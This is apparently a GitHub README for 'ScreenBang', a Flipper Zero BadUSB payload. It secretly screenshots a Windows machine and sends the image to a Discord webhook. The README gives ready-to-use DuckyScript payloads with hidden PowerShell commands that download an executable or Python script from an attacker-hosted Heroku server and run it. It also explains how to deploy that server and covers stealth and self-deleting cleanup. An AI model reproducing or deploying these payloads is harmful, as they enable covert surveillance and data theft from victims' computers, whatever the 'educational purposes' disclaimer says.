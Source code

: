 
# **ScreenBang**

**ScreenBang** is a Flipper Zero payload designed to discreetly capture a screenshot of a target Windows machine and send it directly to a Discord server via a webhook. This tool provides both a Python-based solution and a standalone executable for flexible and seamless use.

---

## **Features**
- 📸 **Screenshot Capture**: Takes a full-screen screenshot of the target machine.
- 🚀 **Discord Webhook Integration**: Automatically sends screenshots to a Discord channel.
- 🧹 **Automatic Cleanup**: Deletes temporary files, including the executable, after execution.
- 🕵️ **Stealth Mode**: Operates using hidden PowerShell commands to avoid detection.
- 🔌 **Flipper Zero Integration**: Designed specifically for Flipper Zero's BadUSB functionality.

---

## **Project Structure**
```
ScreenBang/
│
├── bang.py               # Python script for screenshot capture and Discord webhook
├── bang.exe              # Compiled standalone executable of bang.py
├── app.py                # Flask server for hosting the scripts
├── Screen Bang PY        # Payload for downloading and executing bang.py
├── Screen Bang EXE       # Payload for downloading and executing bang.exe
├── LICENSE               # MIT license
├── README.md             # Project documentation
```

---

## **Requirements**
- A **Flipper Zero** device with BadUSB functionality enabled.
- A **Discord Webhook URL**.
- A target machine running Windows (7, 10, or 11).

### **Optional: Python-based setup**
- Python 3.8+ installed on the target machine.
- Required Python libraries:
  - `requests`
  - `Pillow`

---

## **Installation**

### **1. Modify the Webhook URL**
To use the Python script, you must replace the placeholder webhook URL with your own.

1. Open `bang.py` in any text editor.
2. Locate the line:
   ```python
   WEBHOOK_URL = "<Your discord webhook here>"
   ```
3. Replace `<Your discord webhook here>` with your actual Discord webhook URL. For example:
   ```python
   WEBHOOK_URL = "https://discord.com/api/webhooks/your_webhook_id/your_webhook_token"
   ```
4. Save the file.

---

### **2. Deploy the Flask Server**
1. Clone the repository:
   ```bash
   git clone https://github.com/DuarteAd/ScreenBang.git
   cd ScreenBang
   ```
2. Install dependencies for the Flask server:
   ```bash
   pip install -r requirements.txt
   ```
3. Deploy the server to a cloud platform (e.g., Heroku):
   ```bash
   heroku create
   git push heroku main
   ```
4. The server will host `bang.py` and `bang.exe` for payloads to download.

---

### **3. Prepare Flipper Zero Payloads**
1. **For the executable**:
   - Use the `Screen Bang EXE` payload:
     ```plaintext
     REM Download and execute bang.exe
     DELAY 1000
     GUI r
     DELAY 500
     STRING powershell -WindowStyle Hidden -Command "& {Start-BitsTransfer -Source 'https://<your-heroku-app>.herokuapp.com/bang.exe' -Destination 'C:\Temp\bang.exe'; Start-Process -WindowStyle Hidden -FilePath 'C:\Temp\bang.exe'}"
     ENTER
     ```
2. **For the Python script**:
   - Use the `Screen Bang PY` payload:
     ```plaintext
     REM Download and execute bang.py
     DELAY 1000
     GUI r
     DELAY 500
     STRING powershell -Command "Invoke-WebRequest -Uri 'https://<your-heroku-app>.herokuapp.com/bang.py' -OutFile 'C:\Temp\bang.py'; python C:\Temp\bang.py"
     ENTER
     ```

---

## **Usage**
1. Load the payload onto your Flipper Zero.
2. Connect the Flipper Zero to the target Windows machine.
3. Execute the payload to capture a screenshot and send it to Discord.

---

## **Disclaimer**
- This project is for **educational purposes only**.
- Unauthorized use of this tool is **strictly prohibited** and may violate local laws.
- Ensure you have explicit permission before using this tool on any machine.

---

## **Credits**
This project was developed by **DuarteAd** with the goal of providing a practical and educational example of Flipper Zero's BadUSB capabilities.

### **Special Thanks**
- The **Flipper Zero Community** for their continuous support and innovation.
- The developers of **Pillow** and **Requests** for enabling key functionalities in this project.
- Everyone who contributed feedback and testing to improve ScreenBang.

---

## **License**
This project is licensed under the **MIT License**. You are free to use, modify, and distribute this software, provided you include proper credit to the original author.

---

## **Support**
If you encounter any issues or have suggestions for improvement, feel free to open an issue on [GitHub](https://github.com/DuarteAd/ScreenBang).
